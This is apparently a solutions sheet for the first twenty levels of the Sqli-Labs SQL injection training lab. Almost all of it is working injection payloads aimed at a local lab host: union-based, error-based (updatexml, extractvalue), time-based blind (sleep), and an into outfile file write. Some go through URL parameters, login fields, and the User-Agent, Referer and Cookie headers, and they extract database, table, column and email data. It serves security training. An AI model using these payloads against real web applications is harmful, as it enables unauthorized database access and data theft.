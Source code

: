 ##Sqli-Labs前20题解

	http://192.168.0.34/sql/Less-1/?id=' union select 1,2,database() %23
	http://192.168.0.34/sql/Less-1/?id=1' and 1=2 union select 1,2,database() %23
	
	http://192.168.0.34/sql/Less-2/?id='' union select 1,2,database() %23
	
	http://192.168.0.34/sql/Less-2/?id='' union select 1,2,group_concat(distinct+table_name)from information_schema.columns where table_schema='security'  %23
	
	http://192.168.0.34/sql/Less-2/?id='' union select 1,2,group_concat(distinct+column_name)from information_schema.columns where table_name='emails' %23
	
	http://192.168.0.34/sql/Less-2/?id='' union select 1,2,group_concat(distinct+id,0x2B,email_id)+from+emails %23
	
	http://192.168.0.34/sql/Less-3/?id=')  union select 1,2,database() %23 ('
	
	http://192.168.0.34/sql/Less-4/?id=1")  and 1=2 union select 1,2,database() %23 ("
	
	http://192.168.0.34/sql/Less-5/?id=9"' and 1=(updatexml(1,concat(0x3a,(select user())),1)) %23
	
	http://192.168.0.34/sql/Less-5/?id=1”' and (select 1 from  (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a) %23
	
	http://192.168.0.34/sql/Less-5/?id=9"' or 1=updatexml(1,concat(0x5e24,@@datadir,0x5e24),1) --+
	
	http://192.168.0.34/sql/Less-5/?id=9"' and 1=updatexml(1,concat(0x5e24,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5e24),1) --+
	
	http://192.168.0.34/sql/Less-5/?id=9"' and 1=updatexml(1,concat(0x5e24,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x5e24),1) --+
	
	http://192.168.0.34/sql/Less-5/?id=9"' and extractvalue(1, concat(0x5c,(select email_id from emails limit 1))) %23
	
	http://192.168.0.34/sql/Less-6/?id=1'" and 1=(updatexml(1,concat(0x3a,(select user())),1))  %23
	
	http://192.168.0.34/sql/Less-7/?id=1')) union all select NULL,NULL,0x74657374 into outfile 'c:\\a.txt'   %23 (('
	
	http://192.168.0.34/sql/Less-8/*******
	
	http://192.168.0.34/sql/Less-9/?id=1' and if((length(database()))>1,sleep(5),null)  %23
	
	http://192.168.0.34/sql/Less-10/?id=1" and sleep(5) %23
	
	http://192.168.0.34/sql/Less-11/
	uname=aaa' and 1=2 union select 1,database()  %23&passwd=bbbbb&submit=Submit
	
	http://192.168.0.34/sql/Less-12/
	uname=aaa") and 1=2 union select 1,database()  %23("&passwd=bbbbb&submit=Submit
	
	http://192.168.0.34/sql/Less-13/
	uname=aaa&passwd=bbbbb') and 1=(updatexml(1,concat(0x3a,(select user())),1)) %23('&submit=Submit
	
	http://192.168.0.34/sql/Less-14/
	uname=aaa&passwd=bbbbb" and 1=(updatexml(1,concat(0x3a,(select user())),1)) %23 &submit=Submit
	
	http://192.168.0.34/sql/Less-15/
	uname=aaaaaa' or sleep(2) %23&passwd=aaa&submit=Submit
	
	http://192.168.0.34/sql/Less-16/
	uname=aaaaaa") or sleep(2) %23&passwd=aaa&submit=Submit
	
	http://192.168.0.34/sql/Less-17/
	uname=admin&passwd=aaa' or sleep(2) %23&submit=Submit
	uname=admin&passwd=aaa' or 1=updatexml(1,concat(0x5e24,version(),0x5e24),1) --%20&submit=Submit
	
	http://192.168.0.34/sql/Less-18/
	uname=admin1&passwd=0&submit=Submit
	User-Agent: cc' or 1=updatexml(1,concat(0x5e24,version(),0x5e24),1),'','') -- )
	
	http://192.168.0.34/sql/Less-19/
	uname=admin1&passwd=0&submit=Submit
	Referer: 'or 1=extractvalue(1,concat(0x3c,version(),0x3c)),'') #
	
	http://192.168.0.34/sql/Less-20/  环境原因未成功
	Cookie:uname=admin‘ or 1=(select * from (select name_const(version(),1),name_const(version(),1))a group by a) --%20
	Cookie: uname=admind‘ union all select 1,(select group_concat(table_name) from information_schema.tables where table_schema=‘security‘),3 --%20